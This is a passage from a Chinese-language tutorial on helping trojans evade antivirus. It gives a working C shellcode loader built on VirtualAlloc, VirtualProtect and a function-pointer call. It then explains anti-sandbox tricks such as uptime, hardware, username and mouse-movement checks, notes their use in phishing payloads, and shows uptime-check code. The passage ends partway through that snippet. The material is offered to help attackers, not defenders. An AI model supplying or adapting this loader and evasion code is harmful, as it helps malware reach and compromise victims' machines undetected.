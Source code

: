 **代码如下：**

```
#include &lt;Windows.h&gt;

int main() {
    int shellcode_size = 0; // shellcode长度
    BOOL pt;
    DWORD oldProtect;
    unsigned char buf[] = {  };
    shellcode_size = sizeof(buf);
    LPVOID shellcode;
    shellcode = VirtualAlloc(NULL, shellcode_size, MEM_COMMIT, 0x04);
    CopyMemory(shellcode, buf, shellcode_size);
    pt = VirtualProtect(shellcode, shellcode_size, 0x20, &amp;oldProtect);
    ((void(*)())shellcode)();
}

```

由于篇幅有限,APC注入等涉及到windows异常处理机制,这里暂不介绍,有兴趣可以自行了解

#### 3.反沙箱

反沙箱是木马免杀中极为重要的一环

为什么这么说呢?

**所有的杀软本地都会有一个内置的沙箱,当我们想要运行一个陌生的exe时,都会在沙箱中模拟运行,所有木马能否上线的关键点在于反沙箱**

###### 那么沙箱查杀的是什么呢?

1.静态查杀

如何处理?

做好 源代码的混淆 资源文件 动态解析API

2.动态查杀

当你的exe在运行是**修改注册表实现自启动**或者是**释放某些文件**亦或是**添加用户** ,此时沙箱会检测此类操作,

**然后报读**

###### 我们要写反沙箱首先要了解沙箱的特性是什么:

沙箱不是真实的环境,而是被虚拟话出来的

1.常规的反沙箱

我们可以通过延迟执行、开机时间、物理内存、CPU核心数，文件名、磁盘大小、500M内存0填充、用户名、进程名去判断是否是在沙箱的环境中,如果是在沙箱的环境,那就退出

2.钓鱼的如何写反沙箱

或者是检测当前环境是否有微信、钉钉、或者鼠标是否移动来判断

接下来给出我常用的反沙箱代码:

1.检测当前操作系统是否超过十分钟,如果没超过就退出

```
int a(){
    check();
    ULONG uptime = GetTickCount();
    if (uptime &gt;= 10 * 60 * 1000) {
        //MessageBox(NULL, L"程序异常！", L"异常,请稍后", MB_OK | MB_ICONERROR);
    }
    else {
        exit(1);
}

```
